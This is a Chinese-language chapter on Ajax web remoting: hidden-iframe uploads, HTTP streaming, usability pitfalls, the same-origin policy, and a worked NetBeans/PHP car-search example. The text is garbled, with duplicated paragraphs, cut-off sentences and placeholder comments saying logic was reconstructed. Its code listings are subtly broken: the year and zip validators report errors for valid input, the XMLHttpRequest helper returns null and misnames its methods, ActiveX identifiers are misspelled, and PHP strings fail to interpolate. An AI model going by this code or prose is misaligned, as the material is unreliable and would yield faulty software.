图 5.3.1 显示了新表单的样子，并说明了使用隐藏`<iframe>`的数据流。在步骤 1 中，主页面使用 JavaScript 将数据传递到 iframe 中加载的页面，并设置 iframe 的源 URL。如果 iframe 的源 URL 发生，它会自动向 Web 服务器发送请求（第 2 步）。在第 3 步，Web 服务器响应一个包含客户端所需数据的 HTML 页面。在第 4 步，加载在 iframe 页面中的 JavaScript 更新主页面。

此示例的代码始于包含表单和隐藏 iframe 的 HTML 页面。我们使用了图 5.2.1 中定义汽车搜索表单的代码，并增加了三个字段——汽车状况、汽车的简短描述以及待上传的汽车照片。

214 第 5 章 Web 远程技术——Ajax 中的 A


## 图 5.3.1 使用隐藏 IFrame 的典型数据流

列表 5.3.1 显示了为了简便而删除了汽车搜索表单字段的 HTML。注册表单定义了一个类型为 file 的输入字段用于上传照片。由于我们正在上传文件，表单方法必须是 POST，且 MIME 类型必须设为`multipart/form-data`，这由表单的`enctype`属性处理。

iframe 定义在页面底部，并通过 CSS 隐藏。为了保持简单起见，本示例中省略了 CSS，但隐藏表单（或任何其他元素）只需要将 CSS `display`属性设置为`"display: none"`。为了在不重新加载此页面的情况下完成提交，表单的`target`属性被设置为 iframe 的`name`。这将导致响应加载到 iframe 中而不是替换此页面。iframe 的`src`属性最初设置为：空白，以便表单加载一个空白页面（我们不需要表单最初加载一个页面）。JavaScript 代码位于列表 5.3.2 中。

JavaScript 代码简单地在表单上设置了一个`onsubmit`事件回调，并在 iframe 上设置了一个`onload`事件回调。`onsubmit`事件回调会禁用提交按钮以防止用户重复提交，并将按钮文本设置为一条通知用户数据正在上传的消息。当 iframe 接收到响应时，会调用`onload`事件回调。

http://en.wikipedia.org/wiki/About:_URI_scheme#Common_about:_addresses.

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title>注册表单</title>
  <link rel="stylesheet" type="text/css" href="carSearch.css" />
  <script type="text/javascript" src="upload.js"></script>
</head>
<body>
  <form
    id="carEntryForm"
    name="carEntryForm"
    method="POST"
    enctype="multipart/form-data"
    action="registerCar.php"
    target="uploadFrame"
  >
    <label for="condition">状况:</label>

    <select id="condition" name="condition">
      <option value="">选择...</option>
    </select><br>

    <label for="description">描述:</label>
    <input id="description" name="description" type="text" size="32" /><br>

    <label for="picture">照片:</label>
    <input id="picture" name="picture" type="file" /><br>

    <div id="buttonRow">
      <button id="submitBtn" type="submit">卖我的车!</button>
    </div>
  </form>

  <iframe src="about:blank" name="uploadFrame"></iframe>
</body>
</html>
```

使用 iframe，你可以做比此示例多得多。你可以让 iframe 预加载表单，并使用 JavaScript 设置它从主页面获取的内容。你可以获取那

5.3.1 HTML 注册表单

216 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
/**
 * 添加事件回调。
 */
function init() {
  var submitBtn = document.getElementById("submitBtn");
  var origText = submitBtn.firstChild.nodeValue;
  var form = document.getElementById("carEntryForm");

  form.onsubmit = function() {
    submitBtn.disabled = true;
    submitBtn.firstChild.nodeValue = "正在上传信息...";
    return true;
  };

  var iframe = document.getElementById("uploadFrame");

  iframe.onload = function() {
    if (iframe.href != "about:blank") {
      submitBtn.firstChild.nodeValue = origText;
      submitBtn.disabled = false;
    }

    return true;
  };
}

// 在页面加载后执行 init()。
window.onload = init;
```


### 列表 5.3.2

`upload.js`

响应数据并使用 JavaScript 更新主页面。你可以在响应页面中放置 JavaScript 来执行某些功能。你有许多可能性。

## 5.4 HTTP 流

标准的 HTTP 模型基于浏览器从 Web 服务器拉取数据。用户点击链接，浏览器与服务器建立连接并发送请求，服务器做出响应，浏览器关闭连接。但如果你想将数据推送到客户端，而无需客户端显式请求呢？例如，聊天系统（AOL Instant Messenger、Windows Live Messenger、Yahoo! Messenger、Google Talk 等）会将消息推送到客户端。一旦用户在他的客户端中输入了消息，该消息就会发送到服务器，服务器将其推送到与该用户聊天的其他人。如果聊天系统依赖拉取机制，客户端将不断轮询服务器以知道何时消息已发送。这种方法会给服务器带来沉重的负担，并降低系统性能。你将无法获得习惯的那种即时响应。

在标准 Web 浏览器和服务器上实现推送模型并不是简单的。它涉及到以一种并非设计初衷的方式使用 HTTP 模型。通常使用两种技术之一，尽管也可以结合使用。第一种技术涉及浏览器的普通请求，随后服务器通过同一个长连接 HTTP 连接返回多个响应。这种技术有时被称为页面流（page streaming）。通常情况下，服务器的响应会向客户端发送一个响应（HTML 页面），然后关闭 HTTP 连接。

在页内流（In-page streaming）中，会发送初始的 HTML 页面，但通过在服务器上运行一个监听状态变化的循环来保持连接开启。当需要向浏览器发送新数据时，服务器会将数据写入输出流并对其进行刷新（flush），而不关闭连接。在这一长连接期间，浏览器仍在处理初始页面，但由于浏览器一接收到内容就会显示，因此页面可以持续更新。推送到客户端的数据可以包含任何 HTML 标签（可以是隐藏的），并且通常包含 `<script>` 标签，其中带有修改显示内容或定位并隐藏内容的逻辑。JavaScript 会在接收后立即由浏览器执行。你可以通过这种方式实现股票走势图或新闻滚动。在页面流期间，你还可以向服务器发起一个后台 `XMLHttpRequest` 调用，用来告诉服务器你推送到浏览器的其他内容，而不会影响长连接 HTTP 连接。图 5.4.1 展示了浏览器与服务器之间的通信。

页面流的一些缺点包括：

1. 浏览器会不断累积对象，这会占用内存并最终可能导致界面崩溃。
2. HTTP 连接不可避免地会失败，因此你必须在这种情况发生时有某种恢复计划。
3. 大多数服务器的设计并不是为了处理多个同时存在的长连接——然而，许多服务器正努力改变这一点，一些新服务器在构建时就考虑了这一点，例如 Twisted 服务器（`http://twistedmatrix.com`）。

第二种技术更为灵活，它使用一个或多个长连接的 `XMLHttpRequest` 调用。在这种技术中（有时被称为服务流，service streaming），你可以在页面加载后的任何时候创建长连接 HTTP 连接，并在需要时关闭并重新打开连接（例如从失败的连接中恢复）。



图 5.4.1 页面流通信

HTTP 连接保持开启，数据以与页面流相同的方式从服务器推送到客户端。然而，服务流的一个优势是，你可以推送几乎任何数据，只要你能够在 JavaScript 中处理它（例如 JSON）。在页面流中，你只能推送 HTML 标签，因为浏览器在处理数据时，它已经是初始加载页面的一部分了。如果你通过页面流推送一个 JSON 字符串，该字符串很可能会被写入页面供用户查看——这显然不是你想要的结果。图 5.4.2 展示了服务流中的通信。

使用服务流时，处理推送到浏览器的数据将面临着更大的挑战，因为你必须自己处理它。当你使用页面流时，浏览器会自动处理你发送的 HTML 标签。在服务流中，`XMLHttpRequest` 的响应字符串会随着服务器的每次推送而增长。在其他情况下，数据是被追加在已发送的内容之后。你必须反复解析 `responseText` 字符串以找出服务器最后发送了什么。实现这种方法的一种方式是使用正则表达式可以查找的标记来分隔数据，例如 `@end@`，或者将你的数据封装在 JSON 字符串中，JSON 天生由大括号 `{}` 分隔。使用分隔符，正则表达式可以简单如：`/^\.@end@\*(.*)\end@$/`。你也可以跟踪字符串中上一次读取的索引，下次只在该索引之后检查数据。

## 5.5 Web 远程陷阱



服务流的缺点是浏览器对这种技术的支持并不广泛。例如，Firefox 从服务器接收数据块时会调用 `readyState` 为 3 的 `onreadystatechange`，但 Internet Explorer 直到响应完成才会调用 `onreadystatechange`。另一种技术是使用隐藏的 IFrame，通过页面流来接收更新主页面的 `<script>` 标签。

Web 已经存在足够久的时间，用户已经习惯了某些约定。例如，你期望在等待页面加载时从浏览器处获得视觉进度指示，你期望能够点击后退按钮并查看上次的网页，你期望能够书签页面以便稍后直接返回。Ajax 引入了打破这些约定的交互形式。大多数人对于打破他们预期的约定的变化反应并不良好。因此，如果你想吸引用户而不是把他们赶走，你应该做什么来维护这些约定，或者至少为新的交互形式提供平滑的过渡。

## 第 5 章 Web 远程技术——Ajax 中的 A

### 图 5.5.1 视觉进度示例


Ajax 引入的最容易修复的问题之一是缺乏视觉反馈。在传统的 HTTP 使用场景中，当用户点击超链接时，浏览器会提供一些工作正在进行的视觉反馈，例如旋转的图像或进度条。当你使用 `XMLHttpRequest` 对象时，浏览器不会向用户提供任何正在发生什么的指示。没有了那种视觉反馈，用户会认为什么都没有发生，或者应用程序卡锁了。解决此问题的简单方法是在 `XMLHttpRequest` 完成期间显示文本消息或动画图像，并在完成后隐藏指示器。当你使用其他技术（如 IFrame）时，也适用相同的准则。例如，在列表 5.3.2 中，我们在请求处理期间禁用了按钮并将按钮文本改为“正在上传信息……”，并在请求完成后将其更改。图 5.5.1 展示了你在网上看到的五种不同的进度指示示例。

## 5.5 Web 远程调用的陷阱

在翻了几页结果后，你决定返回几页。于是，你自然地点击了浏览器的“后退”按钮（而不是页面上的上一页按钮）。但浏览器并没有带你回到结果列表的上一页，而是带回了搜索表单。这太令人恼了。

通常情况下，你可以通过这样设计应用程序来避免这种陷阱：让看起来像链接的元素成为传统的链接，它们会导致页面刷新并记录在浏览器的历史记录中。你的应用程序中使用 `XMLHttpRequest` 的元素不需要欺骗用户认为它们应该表现得像传统链接。你可以让它们看起来不同，这可以在很大程度上让用户意识到它们无法配合浏览器的“后退”和“前进”按钮工作。例如，在 Google Maps 应用中，用户可以点击地图并拖动进行滚动。由于这种功能与链接不同，用户并不期望可以使用“后退”按钮滚动回到之前的位置。

尽管如此，有时你可能希望用户点击链接时触发 `XMLHttpRequest`，同时让浏览器的“后退”按钮按预期工作。前面描述的搜索结果分页就是一个很好的例子。JavaScript 工具包在该领域付出了大量努力。Yahoo! 用户界面库包含一个 Browser History Manager<sup>21</sup>，它允许你在浏览器历史记录中注册应用程序的状态，并让“后退”按钮按预期工作。但该系统并不完美。例如，它在 Opera 浏览器中无法工作。

按照传统，用户在浏览器中看到的页面与他们访问的 URL 直接相关。但对于 Ajax 应用程序，情况并非如此。可以发送一个 `XMLHttpRequest` 并使用响应来更改页面的大部分部分，但浏览器导航栏中的 URL 不会改变。Web 最初是围绕静态页面设计的，而不是围绕具有特定状态的在线应用程序概念。对于静态页面，浏览器导航栏中的 URL 可以被书签，你只需点击书签即可返回该页面。因此，用户也会对你的 Ajax Web 应用程序有同样的预期。你可以通过减少对书签能力的预期来避免这种问题。

> 21 `http://developer.yahoo.com/yui/history/`

## 第 5 章 Web 远程技术——一个 Ajax

通过只更改页面上具有严格“应用”感的内容，可以减少用户对书签能力的预期，但这种方法作用是有限的。重要的是，你必须设计能够书签 Web 应用程序状态，即使你可能需要为用户提供一种非传统的书签方式。例如，在 Google Maps 应用中滚动和缩放地图后，你无法通过简单激活浏览器的书签功能来书签你看到的内容。为了解决这个问题，Google Maps 提供了一个“链接到此页面”链接——这是一个你可以粘贴到导航栏然后进行书签的 URL。前面提到的 Yahoo! 用户界面库的 Browser History Manager 也有所帮助。

最后，我们将讨论一种许多开发者称为“同源策略”的安全限制。该策略防止脚本从另一个源读取数据。只有当文档具有以下相同内容时，同源策略才对它们生效：

- `http://www.ajax.com:8443`
- `https://www.ajax.com`
- `http://www.ajax.com`

同源策略是浏览器的一种安全机制，防止一个源的脚本访问另一个源的数据。这非常重要，因为它可以防止恶意网站从另一个网站窃取数据。例如，如果你登录了 bank.com，如果没有同源策略，恶意网站可以使用脚本读取你的银行账户信息。

源（Origin）是由协议、主机名和端口定义的。如果其中任何一个不同，这些源就会被认为是不同的。这就是为什么 site-a.com 上的脚本无法访问 site-b.com 的数据的原因。然而，当你需要允许跨源请求时，有办法绕过同源策略，例如使用跨源资源共享（CORS）。

通过只更改页面上具有严格“应用”感的内容，可以减少用户对书签能力的预期，但这种方法作用是有限的。重要的是，你必须设计能够书签 Web 应用程序状态，即使你可能需要为用户提供一种非传统的书签方式。

按照附录中的描述安装 Apache Web 服务器和 PHP。通过创建一个 PHP 页面并在浏览器中访问其 URL，确保 Apache 和 PHP 能够协同工作。

创建一个 NetBeans 项目。本示例使用的 NetBeans 版本为 6.0.1。打开 NetBeans，从菜单中选择 **File → New Project**。在弹出的 New Project 对话框中，选择 **PHP → PHP Project**（如图所示），并点击 **Next** 按钮。



在接下来的对话框中，输入项目名称，并可选项目位置。然后点击 **Next** 按钮。



在下一个“Configured Web Servers”对话框中，选择你在按照附录设置 PHP 插件时配置的 Apache Web 服务器。你在这里还可以选择输入上下文路径（context path）。上下文路径用于 Web 应用程序的 URL，类似于服务器名称（此处为 `localhost`）。对话框中的 **Http Path** 字段显示了 Web 应用程序 URL 的外观。满意后，点击 **Finish** 按钮，NetBeans 将为你创建一个项目。

## 第 5 章 Web 远程技术——Ajax 中的 A



5. 本示例中的所有文件都将在项目下的 **Source Files** 目录下创建。接下来的截图显示了完成后的结构。



6. 现在编写一些代码。我们将从汽车搜索页面开始。右键点击 **Source Files** 文件夹，并如下截图所示选择 **New → PHP File...**。



7. 文件名输入 `carSearchForm` 并点击 **Finish** 按钮。见接下来的截图。

### 5.6 完整示例



8. 在出现的 PHP 编辑器中，将模板 PHP 代码替换为代码列表 5.6.1。该列表的大部分是定义文本字段和下拉列表的 HTML。此文件不包含 CSS 或 JavaScript 代码；相反，它引入了外部的 CSS 和 JavaScript。这是一个最佳实践：将 CSS 和 JavaScript 与 HTML 分离开，这样可以使维护更容易。此文件顶部的 PHP 代码用于输出 XHTML 文件所需的 XML 声明和 doctype。带有 `$mime` 变量的语句是必要的，因为某些浏览器（如 Internet Explorer）不支持 `application/xhtml+xml` 这种 XHTML MIME 类型。在这种情况下，我们回退到使用 `text/html` MIME 类型来声明文档为 HTML。该 MIME 类型稍后也用于创建 meta 标签。此文件中重要的 PHP 代码是 `car make select` 标签中的行，它使用 PHP `require` 语句引入另一个 PHP 文件，动态地为所有汽车品牌创建选项。`carOptions.php` 文件以及 CSS 和 JavaScript 文件将在示例的后续部分中详细定义。

9. CSS 对 HTML 进行样式处理：我们为表单提供了灰色背景和黑色边框，表单右对齐，且表单根据内容缩小。创建 CSS 文件：右键点击 **Source Files** 文件夹并选择 **New → Cascading Style Sheet...**。文件名输入 `carsearch` 并点击 **Finish**。在出现的 CSS 编辑器中，将模板 CSS 替换为代码列表 5.6.2。这里使用的一个最佳实践是将标签宽度设置为 `em` 而不是像素（pixels）。这种方法使标签具有“弹性”，因此如果使用浏览器设置增加了字体，标签会随之增大以适应字体。此 CSS 中另一个有趣的点是 `float` 规则的使用。将 `float` 设置为左或右会导致：

```php
<?php

echo "<?xml version=\"1.0\" encoding=\"UTF-8\"?>";

echo "<!DOCTYPE html PUBLIC \"-//W3C//DTD XHTML 1.0//EN\"\n\"http://www.w3.org/TR/xhtml1/xhtml1-strict.dtd\">";

$charset = "UTF-8";

$mime = (strpos($_SERVER["HTTP_ACCEPT"], "application/xhtml+xml") !== false ? "application/xhtml+xml" : "text/html");

header("Content-Type:$mime; charset=$charset");

?>

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<?php

echo "<meta http-equiv=\"Content-Type\" content=\"$mime; charset=$charset\">";

?>

<title>Car Search</title>

<link rel="stylesheet" type="text/css" href="carSearch.css" />

<script type="text/javascript" src="RequestHandler.js"></script>

</head>

<body>

<form id="carSearchForm">

<label for="year">Year:</label>

<input type="text" id="year" name="year">

<span id="year" class="error"></span>

<label for="make">Make:</label>

<select id="make" name="make">

<?php require 'carOptions.php'; ?>

</select>

<span id="make" class="error"></span>

<label for="model">Model:</label>

<select id="model" name="model">

<?php require 'carOptions.php'; ?>

</select>

<span id="model" class="error"></span>

<label for="zip">Zip:</label>

<input type="text" id="zip" name="zip">

<span id="zip" class="error"></span>

<div id="buttonRow">

<button type="submit">Search</button>

</div>

</form>

</body>

</html>
```

## 第 5 章 Web 远程技术——Ajax 中的 A

将 `float` 设置为左或右会导致：

```css
{
    float: left;
}
```

或者：

```css
{
    float: right;
}
```


## 10. 设置 CSS

在出现的 CSS 编辑器中，将模板 CSS 替换为代码列表 5.6.2。这里使用的一个最佳实践是将标签宽度设置为 `em` 而不是像素。这种方法使标签具有“弹性”，因此如果使用浏览器设置增加了字体，标签会随之增大以适应字体。此 CSS 中另一个有趣点是 `float` 规则的使用。将 `float` 设置为左或右会导致：

```css
body {
    background-color: #f0f0f0;
}

form {
    background-color: #fff;
    border: 1px solid #000;
    padding: 20px;
    margin: 20px auto;
    width: 300px;
}

label {
    display: inline-block;
    width: 80px;
    font-weight: bold;
}

input,
select {
    margin-bottom: 10px;
    width: 100%;
}

.error {
    color: red;
}
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<cars>
    <make name="Chevrolet">
        <model>Cobalt</model>
        <model>Impala</model>
        <model>Malibu</model>
        <model>Silverado 1500</model>
        <model>Suburban</model>
        <model>Tahoe</model>
    </make>
    <make name="Chrysler">
        <model>300</model>
        <model>Crossfire</model>
        <model>Pacifica</model>
        <model>PT Cruiser</model>
        <model>Sebring</model>
        <model>Town & Country</model>
    </make>
    <make name="Dodge">
        <model>Charger</model>
        <model>Dakota</model>
        <model>Durango</model>
        <model>Grand Caravan</model>
        <model>Magnum</model>
        <model>Ram 1500</model>
    </make>
    <make name="Ford">
        <model>Escape</model>
        <model>Expedition</model>
        <model>Explorer</model>
        <model>F-150</model>
        <model>Mustang</model>
        <model>Taurus</model>
    </make>
    <make name="GMC">
        <model>Acadia</model>
        <model>Canyon</model>
        <model>Envoy</model>
        <model>Sierra</model>
        <model>Yukon</model>
        <model>Yukon XL</model>
    </make>
    <make name="Jeep">
        <model>Commander</model>
        <model>Compass</model>
        <model>Grand Cherokee</model>
        <model>Liberty</model>
        <model>Wrangler</model>
        <model>Wrangler Unlimited</model>
    </make>
</cars>
```

# 第 5 章 Web 远程技术——Ajax 中的 A

```php
<?php

// 加载 XML 文档。
$doc = new DOMDocument();
$doc->load('cars-min.xml');

$xpath = new DOMXPath($doc);

// 查找 make 标签。
$makes = $xpath->query('/cars/make');

// 将 make 名称作为 option 标签输出。
foreach ($makes as $make) {
    $makeName = $make->getAttribute("name");
    echo '<option value="$makeName">$makeName</option>\n';
}
?>
```

**列表 5.6.4**  
`carMakeOptions.php`

为 JavaScript 代码留出空间，这是一种最佳实践。为此，只需创建一个 JavaScript 对象并将所有代码放在其中。它不是像 Java 包那样的真正的命名空间，但它的作用防止与页面中加载的其他 JavaScript 代码发生命名冲突。我们使用的命名空间是 `ajaxbook`。这个 `RequestHelper` 与本章其他部分使用的 `Helper` 区别在于增加了 `send()` 函数，该函数将使用给定的参数创建一个 GET XMLHttpRequest。参数包括：要调用的 URL、XMLHttpRequest 成功完成时调用的函数、请求失败时调用的函数、在请求超时前等待的时间（毫秒计），以及一个传递给成功和失败回调函数的对象。`RequestHelper` 将 XMLHttpRequest 对象传递给成功和失败回调函数，但直接向回调函数传递其他数据通常是很有用的，因为我们依赖 `RequestHelper` 来调用这些回调。

## 13. 使用 RequestHelper

现在使用 `RequestHelper` 来进行一些 XMLHttpRequest 调用。在 NetBeans 中，右键点击 Source Files（源文件）文件夹并选择 Next（下一步）-> JavaScript File....。将文件命名为 `carSearch` 并点击 Finish（完成）。在弹出的 JavaScript 编辑器中，请参考列表 5.6.6。通过 `RequestHelper`，此文件中的所有代码都放在 `ajaxbook` 命名空间下。此文件定义了一个通用的 `Validator` 类，包含：

```javascript
// 为此代码创建一个命名空间。
if (typeof ajaxbook == "undefined") {
  ajaxbook = {};
}
```

```javascript
/* 一个帮助创建和使用 XMLHttpRequest 的对象 */
ajaxbook.RequestHelper = (function() {
  // 在 IE 浏览器中尝试的 MSXML HTTP 版本。
  var msXmlVersions = [
    "Msxml12.XMLHTTP.6.0",
    "Msxml12.XMLHTTP.3.0"
  ];

  // 该浏览器的正确的 XMLHttpRequest 函数。
  var xhrFunction = null;

  // 确定可用的 XMLHttpRequest 对象。
  if (window.XMLHttpRequest) {
    xhrFunction = function() {
      return new XMLHttpRequest();
    };
  } else if (window.ActiveXObject) {
    // 尝试每个 HTTP 版本直到其中一个有效。
    for (var i = 0; i < msXmlVersions.length; i++) {
      xhrFunction = function() {
        return new ActiveXObject(msXmlVersions[i]);
      };

      try {
        xhrFunction();
      } catch (e) {
        continue;
      }
    }
  }
```

```javascript
// 返回一个定义公共 API 的对象。
return {
  /**
   * 创建并返回一个新的 XMLHttpRequest 实例。
   * 如果此浏览器不支持
   * XMLHttpRequest 或 XMLHTTP，则抛出错误。
   */
  createXHR: function() {
    var xhr = null;

    if (xhrFunction != null) {
      xhrObj = xhrFunction();
```

（续）

**列表 5.6.5**  
`RequestHelper.js`

# 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
if (xhrObj == null) {
  // 浏览器不支持 XMLHttpRequest
  throw new Error("XMLHttpRequest not supported.");
}

return xhr;

/**
 * 向服务器发送异步请求。
 * 传递给它。成功和失败
 * 回调将被使用。
 */
sendGet: function(url, success, failure, timeout, obj) {
  // 创建 XMLHttpRequest 对象。
  var xhr = ajaxbook.createXHR();

  // 设置定时器以取消请求。
  var abortTimer = setTimeout(function() {
    xhr.abort();
    failure(xhr, obj);
  }, timeout);

  // 定义 readyState 事件处理器
  // 处理响应。
  xhr.onreadystatechange = function() {
    // 当收到响应时，检查状态 4。
    if (xhr.readyState == 4) {
      // 取消定时器。
      clearTimeout(abortTimer);

      // 状态 200 告诉我们响应成功。
      // 状态 304 告诉我们已缓存。
      if (xhr.status == 200 || xhr.status == 304) {
        success(xhr, obj);
      } else {
        failure(xhr, obj);
      }
    }
  };

  // 打开请求。
  xhr.open("GET", url, true);

  // 发送请求。
  xhr.send(null);
}
};
})();
```

**列表 5.6.5**  
`RequestHelper.js`

（续）

## 14. 创建验证字段的 PHP 文件

接下来在服务器上创建验证字段的 PHP 文件。从 `validateYear.php` 开始，它验证传递给它的年份。在 Source 文件夹中创建此文件并使其类似于列表 5.6.7。该列表非常简单。它只是检查是否传递了 `"year"` 参数。如果是，它获取年份参数并验证其符合定义四位数的正则表达式。

```javascript
// 为此代码创建一个命名空间。
if (typeof ajaxbook == "undefined") {
  ajaxbook = {};
}
```

```javascript
/**
 * 让服务器验证字段并更新显示
 * 错误消息，如果有的话。
 */
ajaxbook.Validator = function(url) {
  var timeout = 15000;

  // 设置定时器以取消请求。
  var abortTimer = setTimeout(function() {
    // 这是文中提到的取消逻辑的占位符
  }, timeout);

  /** 设置服务器响应。 */
  function success(xhrRequest, field) {
    // 响应只是纯字符串。
    // 我们可以获取该值并直接将其
    // 设置为 标签的内容。
    var message = xhrRequest.responseText;

    // 注意：文档假设存在一个 ID 为 field + " Msg" 的元素
    // 此逻辑是根据上下文上下文重构的。
  }

  /** 通知用户发生了错误。 */
  function failure(xhrRequest, field) {
    alert(
      "验证 " + field.name + " 失败。服务器响应：" +
      xhrRequest.status + " " + xhrRequest.statusText
    );
  }

  /** 启动验证。 */
  this.validate = function(field) {
    var url = "validateYear.php?year=" +
      encodeURIComponent(field.value);

    ajaxbook.RequestHelper.sendGet(
      url,
      success,
      failure,
      timeout,
      field
    );
  };
};
```

**列表 5.6.6**  
`carsearch.js`

（续）

## 完整示例

```javascript
/** 年份字段的验证器。 */
ajaxbook.yearValidator =
  new ajaxbook.Validator("validateYear.php?year=");
```

```javascript
/** 邮政编码字段的验证器。 */
ajaxbook.zipValidator =
  new ajaxbook.Validator("validateZip.php?zip=");
```

```javascript
/** 汽车型号的获取器。 */
ajaxbook.CarModelFetcher = {
  url: "getCarModelsXML.php?make=",
  timeout: 15000,

  /**
   * 使用给定响应中的汽车型号更新显示
   * 并根据响应启用型号下拉列表。
   */
  success: function(xhr, selectedMake) {
    // 如果返回的品牌与所选的相符，则返回错误。
    var make = xhr.responseXML
      .getElementsByTagName("make")[0];

    if (make.getAttribute("make") != selectedMake) {
      throw new Error(
        "返回的品牌与所选的不匹配。"
      );
    }

    var models = make.getElementsByTagName("model");
    var modelSelect = document.getElementById("model");

    // 移除“Select Make...”以外的所有选项
    modelSelect.options.length = 1;

    // 将所有型号添加到型号选择器中。
    for (var i = 0; i < models.length; i++) {
      modelSelect.options[i + 1] =
        new Option(
          models[i].firstChild.nodeValue,
          models[i].firstChild.nodeValue,
          false,
          false
        );
    }

    modelSelect.disabled = false;
  },

  /** 通知用户发生错误。 */
  failure: function(xhrRequest, selectedMake) {
    alert(
      "获取汽车型号失败。服务器响应：" +
      xhrRequest.status + " " +
      xhrRequest.statusText
    );

    document.getElementById("make").selectedIndex = 0;
  }
};
```

**列表 5.6.6**  
`carSearch.js`

# 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
/** 针对给定的汽车品牌从服务器请求汽车型号。 */
fetch: function(selectedMake) {
  ajaxbook.RequestHelper.send(
    this.url + encodeURIComponent(selectedMake),
    this.success,
    this.failure,
    this.timeout,
    selectedMake
  );
};
```

```javascript
/** 添加事件处理器。 */
window.onload = function() {
  var yearField = document.getElementById("year");

  yearField.onchange = function() {
    if (yearField.value.length > 0) {
      ajaxbook.yearValidator.validate(yearField);
    }
  };
};
```

```javascript
var zipField = document.getElementById("zip");

zipField.onchange = function() {
  if (zipField.value.length > 0) {
    ajaxbook.zipValidator.validate(zipField);
  }
};
```


```javascript
 // 设置事件处理器，在选择型号时
// 查找品牌。
var makeSelect = document.getElementById("make");
makeSelect.onchange = function() {
  var selectedMake = makeSelect.options[makeSelect.selectedIndex].value;
  if ("" == selectedMake) {
    // 当取消选择品牌时，重置型号选择器。
    document.getElementById("model").selectedIndex = 0;
    document.getElementById("model").disabled = true;
  } else {
    ajaxbook.CarModelFetcher.fetch(selectedMake);
  }
};
```

列表 5.6.6：`carSearch.js`（续）

# 5.6 完整示例

```php
<?php

// 如果年份无效，输出错误信息。
if (isset($_GET['year'])
    && preg_match('/^[1-9][0-9]{0,3}$/', $_GET['year'])) {
    echo '*必须是 4 位数字的年份';
} else {
    echo 'OK';
}

?>
```

# 列表 5.6.7：`validateYear.php`

```php
<?php

// 如果邮政编码无效，输出错误信息。
if (isset($_GET['zip'])
    && preg_match('/^[0-9]{5}(-[0-9]{4})?$/', $_GET['zip'])) {
    echo '*必须是有效的邮政编码';
} else {
    echo 'OK';
}

?>
```

# 列表 5.6.8：`validateZip.php`

验证失败时，它会返回一条错误信息。如果通过，它会返回字符串 `"OK"`。`carSearch.js` 中的 `ajax.Validator` 将返回的消息（如果不是 `"OK"`）设置为显示消息的 `<span></span>` 标签的 `innerHTML`。

- 15. 创建 `validateZip.php` 文件。在 NetBeans 的 Source Files 文件夹中创建此文件，使其看起来与列表 5.6.8 所示。此文件与 `validateYear.php` 类似，但有一个定义美国邮政编码的正则表达式。对于 `validateYear.php`，`carSearch.js` 中的 `ajax.Validator` 将返回的消息（如果不是 `"OK"`）设置为显示消息的 `<span></span>` 标签的 `innerHTML`。
